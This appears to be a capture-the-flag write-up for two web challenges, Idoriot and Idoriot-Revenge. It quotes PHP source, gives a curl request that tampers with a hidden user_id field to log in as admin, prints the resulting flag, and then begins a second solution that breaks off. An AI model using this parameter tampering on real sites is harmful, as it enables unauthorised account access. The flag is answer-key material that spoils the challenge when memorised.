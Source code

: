 **Solution**
This website have function to register but got some vulnerability where we can modify the user id.
```
//registration.php
  <p>The user database will be wiped every 30 minutes.</p>
    <form method="POST" action="register.php">
        <label for="username">Username</label>
        <input type="text" name="username" id="username" required>
        <br>
        <label for="password">Password</label>
        <input type="password" name="password" id="password" required>
        <br>
        <input type="hidden" name="user_id" value="<?= random_int(1, 1000000000) ?>">
        <input type="submit" value="Register">
    </form>
```
```
/index.php
// Get the user for admin
$db = new PDO('sqlite:memory:');
$admin = $db->query('SELECT * FROM users WHERE user_id = 0 LIMIT 1')->fetch();

// Check if the user is admin
if ($admin['user_id'] === $_SESSION['user_id']) {
    // Read the flag from flag.txt
    $flag = file_get_contents('flag.txt');
    echo "<h1>Flag</h1>";
    echo "<p>$flag</p>";
```
Normal `user_id` will be in range `1,1000000000` but what about user 0?.
```
Data send

username=myname&password=name&user_id=188294740
```
![image](https://hackmd.io/_uploads/rytFKP6O0.png)
```
curl -X POST -iL 'http://localhost:8081/register.php'  'Content-Type: application/x-www-form-urlencoded' --data-raw 'username=hacker&password=hacker1&user_id=0'
```
![image](https://hackmd.io/_uploads/HJNh5P6OR.png)


==ictf{1ns3cure_direct_object_reference_from_hidden_post_param_i_guess}==

---
### Idoriot-Revenge
**Description**
The idiot who made it, made it so bad that the first version was super easy. It was changed to fix it.
**Solution**
```
if ($user && password_verify($password, $user['password'])) {
        // Login successful
        // Store user ID in session
        $_SESSION['user_id'] = (int) $user['user_id'];
        $_SESSION['username'] = $user['username'];

        // Redirect to landing page, pass user ID in URL
        header("Location: index.php" . "?user_id=" . urlencode($user['user_id']));
        exit;
        
if ($user_id == "php" && preg_match("/".$admin['username']."/", $_SESSION['username'])) {
        // Read the flag from flag.txt
        $flag = file_get_contents('/flag.txt');
```